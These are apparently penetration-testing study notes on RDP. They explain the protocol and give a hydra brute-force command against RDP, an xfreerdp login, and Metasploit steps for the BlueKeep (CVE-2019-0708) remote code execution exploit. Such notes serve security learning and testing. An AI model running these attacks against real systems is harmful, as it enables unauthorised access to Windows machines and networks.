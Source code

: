 # RDP

# Explanation

- The Remote Desktop Protocol (RDP) is a proprietary GUI remote access protocol developed by Microsoft and is used to remotely authenticate and is used to remotely authenticate and interact with a Windows system.

- RDP uses TCP port 3389 by default, and can also be configured to run on any other TCP port.

- RDP authentication requires a legitimate user account on the target system as well as the user's password in clear-text.

- We can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access to the target system.

# Brute force attack

```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://<target> -s <target-port>
```
# RDP client

```
xfreerdp /u:<user> /p:<pass> /v:<target>:<port>

Do you trust the above certificate? (Y)
```

# Exploiting Windows CVE-2019-0708 RDP vulnerability (BlueKeep)

## Description

- BlueLeep (CVE-2019-0708) is the name given to an RDP vulnerability in Windows that could potentially allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.

- The BlueKeep vulnerability was made public by Microsoft in May 2019.

- The BlueKeep exploit takes advantage of a vulnerability in the Windows RDP protocol that allows attackers to gain access to a chunk of kernel memory consequently allowing them to remotely execute arbitrary code at the system level without authentication.

- The BlueKeep vulnerability affects multiple versions of Windows : 
    - XP
    - Vista
    - Windows 7
    - Windows Server 2008 & 2008 R2

## RCE with Metasploit Framework

```
msfconsole
msf6 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
msf6 > set RHOSTS <target>
msf6 > run
```